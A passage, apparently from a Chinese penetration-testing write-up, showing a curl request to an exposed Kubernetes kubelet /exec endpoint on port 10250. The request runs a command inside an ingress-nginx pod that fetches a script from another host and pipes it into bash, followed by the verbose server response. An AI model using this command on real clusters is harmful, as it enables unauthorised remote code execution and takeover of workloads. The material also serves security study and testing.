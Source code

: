 [![](assets/1701826061-bd1eb53540e6ae2cea63740ab7f0ff94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171332-c5128ea2-7316-1.png)  
之后会再执行端返回用于查看执行结果的链接地址：

```bash
[root@localhost ~]# curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"
* About to connect() to 192.168.4.68 port 10250 (#0)
*   Trying 192.168.4.68...
* Connected to 192.168.4.68 (192.168.4.68) port 10250 (#0)
* Initializing NSS with certpath: sql:/etc/pki/nssdb
* skipping SSL peer certificate verification
* SSL connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate:
*   subject: CN=192.168.4.68@1544518989
*   start date: 12 月 11 09:03:09 2018 GMT
*   expire date: 12 月 11 09:03:09 2019 GMT
*   common name: 192.168.4.68@1544518989
*   issuer: CN=192.168.4.68@1544518989
> POST /exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1 HTTP/1.1
> User-Agent: curl/7.29.0
> Host: 192.168.4.68:10250
> Accept: */*
> X-Stream-Protocol-Version: v2.channel.k8s.io
> X-Stream-Protocol-Version: channel.k8s.io
> 
< HTTP/1.1 302 Found
< Location: /cri/exec/zEKYcaZt                          #查看执行结果
< Date: Wed, 07 Aug 2019 06:01:42 GMT
< Content-Length: 0
< Content-Type: text/plain; charset=utf-8
< 
* Connection #0 to host 192.168.4.68 left intact
[root@localhost ~]#
```
